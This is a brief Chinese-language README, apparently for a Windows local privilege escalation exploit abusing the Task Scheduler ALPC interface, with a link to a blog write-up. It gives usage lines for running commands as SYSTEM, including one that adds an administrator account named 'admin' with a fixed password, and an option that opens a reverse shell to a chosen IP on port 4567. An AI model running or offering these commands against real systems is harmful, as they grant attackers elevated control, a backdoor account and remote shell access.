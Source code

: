 随便写写大佬勿喷  
ALPC-TaskSched-LPE.exe -e "net user admin 1234567@ /add"  
这里我给限制成45个字符了懒得改了不改了要执行程序用请用绝对路径  
ALPC-TaskSched-LPE.exe -g ip 反弹到ip的4567端口  
详细介绍:https://wbglil.github.io/2018/09/08/Advanced-Local-Procedure-Call-利用/
